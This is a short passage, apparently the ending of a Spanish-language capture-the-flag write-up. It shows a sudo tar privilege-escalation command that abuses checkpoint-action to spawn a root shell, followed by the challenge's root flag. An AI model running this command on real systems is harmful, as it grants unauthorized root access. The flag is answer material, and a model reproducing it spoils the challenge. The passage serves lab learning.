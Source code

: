 Por lo que vemos podremos ejecutar el binario `tar` como el usuario `root` por lo que haremos lo siguiente:

```shell
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Y con esto seremos `root`, por lo que leeremos la flag:

> root.txt

```
CYBERLAND{r00t_4cc3ss_gr4nt3d}
```
